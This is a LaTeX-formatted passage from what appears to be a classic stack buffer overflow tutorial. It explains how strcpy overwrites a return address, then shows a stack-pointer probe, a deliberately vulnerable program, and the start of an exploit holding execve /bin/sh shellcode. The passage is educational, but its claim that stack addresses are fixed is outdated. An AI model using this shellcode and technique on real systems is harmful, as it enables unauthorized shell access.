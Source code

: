 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
What we have done above is filled the array \verb+large_string[]+ with the address of buffer[], which is where our code 
will be. Then we copy our shellcode into the beginning of the \verb+large_string+ string. strcpy() will then copy 
\verb+large_string+ onto buffer without doing any bounds checking, and will overflow the return address, overwriting it 
with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to 
our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is 
trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program 
the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand 
bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the 
buffer we are trying to overflow will be. Here is a little program that will print its stack pointer: 


\begin{lstlisting}[caption=sp.c]
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main() 
{
  printf("0x%x\n", get_sp());
}
\end{lstlisting}
\begin{verbatim}
[aleph1]$ ./sp
0x8000470
[aleph1]$
\end{verbatim}
Lets assume this is the program we are trying to overflow is: vulnerable.c 
\begin{lstlisting}[caption=vulnerable.c]
void main(int argc, char *argv[]) 
{
  char buffer[512];

  if (argc > 1)
    strcpy(buffer,argv[1]);
}
\end{lstlisting}
We can create a program that takes as a parameter a buffer size, and an offset from its own stack pointer
(where we believe the buffer we want to overflow may live). We'll put the overflow string in an environment variable 
so it is easy to manipulate: 

\begin{lstlisting}[caption=exploit2.c,frame=single,frameround=tttt,breaklines=true]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}


\end{lstlisting}
\end{CJK}
\end{document}
